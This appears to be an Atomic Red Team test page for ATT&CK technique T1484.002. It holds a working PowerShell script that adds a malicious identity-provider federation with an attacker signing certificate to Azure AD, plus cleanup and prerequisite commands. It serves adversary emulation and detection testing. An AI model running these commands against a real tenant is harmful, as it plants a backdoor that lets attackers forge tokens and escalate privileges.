 # T1484.002 - Domain Trust Modification
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1484/002)
<blockquote>Adversaries may add new domain trusts or modify the properties of existing domain trusts to evade defenses and/or elevate privileges. Domain trust details, such as whether or not a domain is federated, allow authentication and authorization properties to apply between domains for the purpose of accessing shared resources.(Citation: Microsoft - Azure AD Federation) These trust objects may include accounts, credentials, and other authentication material applied to servers, tokens, and domains.

Manipulating the domain trusts may allow an adversary to escalate privileges and/or evade defenses by modifying settings to add objects which they control. For example, this may be used to forge [SAML Tokens](https://attack.mitre.org/techniques/T1606/002), without the need to compromise the signing certificate to forge new credentials. Instead, an adversary can manipulate domain trusts to add their own signing certificate.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Add Federation to Azure AD](#atomic-test-1---add-federation-to-azure-ad)


<br/>

## Atomic Test #1 - Add Federation to Azure AD
Add a new federation to Azure AD using PowerShell. The malicious Identity Provider to be added must be configured beforehand.
If ADFS is used as IdP, the Uris parameters can be found at 'https://<federationservice>.<domainname>.com/federationmetadata/2007-06/federationmetadata.xml'

**Supported Platforms:** Azure-ad


**auto_generated_guid:** 8906c5d0-3ee5-4f63-897a-f6cafd3fdbb7





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| azure_username | Username of a privileged Azure AD account such as External Identity Provider Administrator or Global Administrator roles | String | bruce.wayne@contosocloud.com|
| azure_password | Password of azure_username | String | iamthebatman|
| active_logon_uri | Active Logon Uri, available in federation metadata at <SingleSignOnService Binding="urn:oasis:names:tc:SAML:2.0:bindings:HTTP-POST> field if ADFS is used. | String | https://sts.contoso.com/adfs/ls/|
| issuer_uri | Issuer Uri, available in federation metadata at the "entityID" field if ADFS is used. | String | http://sts.contoso.com/adfs/services/trust|
| metadata_uri | Metadata exchange Uri, available in federation metadata at <Address xmlns="http://www.w3.org/2005/08/addressing"> field if ADFS is used. | String | https://sts.contoso.com/adfs/services/trust/mex|
| public_key | Public key of the X509 signing token certificate, in base64 | String | MzAgODIgMDEgMGEgMD...gZWQgOTkgMDIgMDMgMDEgMDAgMDE=|
| domain_name | New federation domain name | String | contoso.com|


#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module AzureADPreview
$PWord = ConvertTo-SecureString -String "#{azure_password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{azure_username}", $Pword
Connect-AzureAD -Credential $Credential > $null
$federationSettings = New-Object Microsoft.Open.AzureAD.Model.DomainFederationSettings
$federationSettings.ActiveLogOnUri = "#{active_logon_uri}"
$federationSettings.IssuerUri = "#{issuer_uri}"
$federationSettings.LogOffUri = $federationSettings.ActiveLogOnUri
$federationSettings.MetadataExchangeUri = "#{metadata_uri}"
$federationSettings.PassiveLogOnUri = $federationSettings.ActiveLogOnUri
$federationSettings.PreferredAuthenticationProtocol = "WsFed"
$federationSettings.SigningCertificate = "#{public_key}"
$new = New-AzureADExternalDomainFederation -ExternalDomainName "#{domain_name}" -FederationSettings $federationSettings
if ($new) { Write-Host "`nFederation successfully added to Azure AD" } else { Write-Host "`nThe federation setup failed" }
Get-AzureADExternalDomainFederation -ExternalDomainName "#{domain_name}"
Write-Host "End of federation configuration."
```

#### Cleanup Commands:
```powershell
try {
Import-Module AzureADPreview -ErrorAction Ignore
$PWord = ConvertTo-SecureString -String "#{azure_password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{azure_username}", $Pword
Connect-AzureAD -Credential $Credential -ErrorAction Ignore
Remove-AzureADExternalFederationDomain -ExternalDomainName "#{domain_name}"
} catch {}
```



#### Dependencies:  Run with `powershell`!
##### Description: AzureADPreview Powershell module must be installed. The Identity Provider to be federated must be configured (outside of the scope of this test).
##### Check Prereq Commands:
```powershell
if (Get-Module AzureADPreview) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name AzureADPreview -Force
```




<br/>
